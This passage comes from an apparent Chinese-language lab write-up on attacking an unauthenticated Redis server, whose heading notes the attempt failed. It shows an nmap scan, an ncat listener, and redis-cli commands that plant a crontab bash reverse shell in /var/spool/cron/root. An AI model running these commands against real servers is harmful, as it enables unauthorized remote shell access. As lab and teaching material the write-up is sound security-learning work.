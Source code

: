```zsh
```

![80](http://leiblog.wang/static/image/2020/8/d0YHyw.png)

#### 二、Redis 未授权漏洞攻击(失败了:|

Nmap 扫描后发现主机的 6379 端口对外开放，就可以用本地 Redis 远程连接服务器（redis 在开放往外网的情况下，默认配置下是空口令，端口为 6379）连接后可以获取 Redis 敏感数据。首先扫描一下 redis 服务的详细信息、nmap 有个自动扫描脚本。

```zsh
promote at ~ ❯ nmap -A -p 6379 --script=redis-info 192.168.56.101
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-18 21:55 CST
Nmap scan report for promote.cache-dns.local (192.168.56.101)
Host is up (0.00051s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 3.0.7 (32 bits)
| redis-info:
|   Version: 3.0.7
|   Operating System: Linux 3.19.0-25-generic i686
|   Architecture: 32 bits
|   Process ID: 1185
|   Used CPU (sys): 2.13
|   Used CPU (user): 0.70
|   Connected clients: 1
|   Connected slaves: 0
|   Used memory: 622.68K
|   Role: master
|   Bind addresses:
|     0.0.0.0
|   Client connections:
|_    192.168.56.1
```

利用这个漏洞之前，先在本地侦听一个端口。

```zsh
promote at ~ ❯ ncat -lvnp 7999
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::7999
Ncat: Listening on 0.0.0.0:7999
```

注意到本机的 ip 是：`10.32.187.196`。

连接到 redis-cli，准备利用 crontab 反弹 shell

```zsh
promote at ~ ❯ redis-cli -h 192.168.56.101
192.168.56.101:6379> set x "\n* * * * * bash -i >& /dev/tcp/10.32.187.196/7999 0>&1\n"
OK
192.168.56.101:6379> config set dir /var/spool/cron/
OK
192.168.56.101:6379> config set dbfilename root
OK
192.168.56.101:6379> save
OK
192.168.56.101:6379> keys *
1) "x"
192.168.56.101:6379> get x
"\n* * * * * bash -i >& /dev/tcp/10.32.187.196/7999 0>&1\n"
```
